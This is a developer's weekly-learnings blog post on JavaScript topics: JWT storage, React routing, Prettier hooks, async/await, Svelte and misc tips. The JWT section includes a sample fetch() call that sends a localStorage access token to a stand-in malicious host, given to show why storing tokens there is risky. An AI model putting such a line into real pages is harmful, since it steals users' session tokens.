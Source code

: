 ```yaml
---
title: Weekly Learnings 23rd of May
description: Weekly learnings for the 23rd of May 2019
updatedAt: May 23, 2019
img: https://images.unsplash.com/photo-1580752300992-559f8e0734e0?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=634&q=80
alt: Weekly learnings
tags:
  - javascript
  - learnings
  - web-dev
author:
  name: David Yu
  bio: I love to code
  img: require(~/assets/content/davidthrone.jpg)
---
```


## Storing JWT tokens in localStorage

Storing JWT tokens in `localStorage` is common but it is considered bad practice since it opens you up to exploitation if an XSS attack can be conducted. The token can be accessed if the attacker can execute malicious Javascript on your machine something like this.

```js
fetch('http://somemaliciousendpoint.com', {
  method: 'GET',
  headers: {
    Authorization: `Bearer ${localStorage.getItem('accessToken')}`
  }
})
```

## Dynamic navigation in React

React is like the Microsoft for frontend developers. It simply isn't developer friendly and the library `react-router-dom` which allows us to build SPAs is no exception. There isn't any clear definitive way to dynamically route with it. However the two ways I think are good.

If you have wrapped your app with `<BrowserRouter></BrowserRouter>` component then the `history` object will automatically be passed to all your pages (navigatable components) and you can call `props.history.push('/route-i-want-to-go-to)` or for other components you will have to wrap them in the `withRouter` higher order component to pass the `history` object as a `prop`

If you use `<HashRouter></HashRouter>` component then you can navigate with `location.hash = 'route-i-want-to-go-to`

## A better way to format your project

```sh
yarn add prettier --dev --exact
yarn add pretty-quick husky --dev
```

Add this to your package.json

```js
{ "husky": { "hooks": { "pre-commit": "pretty-quick --staged" } } }
```

Now prettier will format only changed files when you `git-commit`

## The future of authentication

It has always been a pain point for developers to integrate authentication in their apps. Not only that but it has security issues e.g. password reuse and its annoying to enter usernames/passwords to authenticate. Introducing two very exciting developments

- **One tap sign on** by Google signs the user in through one click. Presumably the user still needs to maintain a Google account and they are already authed with their browser. There are a lot of requirements for this one but thus far it provides the best user and developer experience as an auth strategy.

- **webauthn** This one is the most exciting and even if this isn't the exact spec that gets widely used the idea should be what we are heading towards in the future. The idea is that we use biometrics like fingerprints and facial recognition to login to a website. We already can do this for our apps but now we are going to do it for websites.

## Async/await

This syntax

```js
try {
  const response = await someAsyncCallThatReturnsAPromise()
  const response1 = await someAsyncCallThatReturnsAPromise1()
  const response2 = await someAsyncCallThatReturnsAPromise2()
} catch (err) {
  console.error("Shouldn't have failed")
}
```

has become the new standard for writing async applications due it is synchronous like nature that makes it easier for developers to reason with. However one annoying thing that we would have to do is wrap the calls in an async function.

```js{1,7}
;(async () => {
  try {
    const response = await someAsyncCallThatReturnsAPromise()
    const response1 = await someAsyncCallThatReturnsAPromise1()
    const response2 = await someAsyncCallThatReturnsAPromise2()
  } catch (err) {
    console.error("Shouldn't have failed")
  }
})()
```

In order for that code to compile we had to wrap that in an IIFE with the async tag. This is because async/await functions always return a promise and to properly call them we also have to await them

```js{1}
await (async () => {
  try {
    const response = await someAsyncCallThatReturnsAPromise()
    const response1 = await someAsyncCallThatReturnsAPromise1()
    const response2 = await someAsyncCallThatReturnsAPromise2()
  } catch (err) {
    console.error("Shouldn't have failed")
  }
})()
```

Now the parent function has to do something similar. I like this approach because we are explicit about things. Although forgetting to await has caused a lot of bugs modern IDEs should tell you if a function returns a promise or not.

## Svelte

Svelte looks really exciting and I look forward to developing a small real world application with it or build on top of their example. It reminds me of Ruby. Although it appears a lot of magic is going on and it abstracts away a lot of things it improves developer experience but in the past these sorts of languages have never gained momentum, e.g. pug and CoffeeScript. HTML, JS and CSS has seem to always win out in the end which is quite ominous for svelte. I think at the end the big tech companies are the ones that sway the industry if they don't adopt svelte then it won't ever reach critical mass. Therefore it is unlikely it will ever be able to compete with React in terms of industry adoption. Even Vue with its massive popularity still hasn't been widely adopted in the industry except for China.

## React + Apollo + Prisma

Still dislike React in terms of developer experience. I just don't have time and energy to detail for the low level things like updating the dam cache. Prisma is cool gives us free CRUD, pagination and filtering but I can see it struggling when we start to build real world applications due to its unopinionated nature like Express. This is fine for large companies with massive dev teams like I have said before but for the majority of companies and dev teams this wouldn't work for them.

## Misc stuff

- Insomnia is a nice replacement for Postman
- The difference between function `helloworld() {}` and `helloworld = () => {}` is that the first one will automatically hoist the function up so you can use it anywhere
- Ngrok can allow your local dev server to be accessible in the cloud but it is very slow
- Chrome has a lazy attribute for images now e.g. `<img loading="lazy">`
- We should use `Sets` more because they are faster and you can access them by value
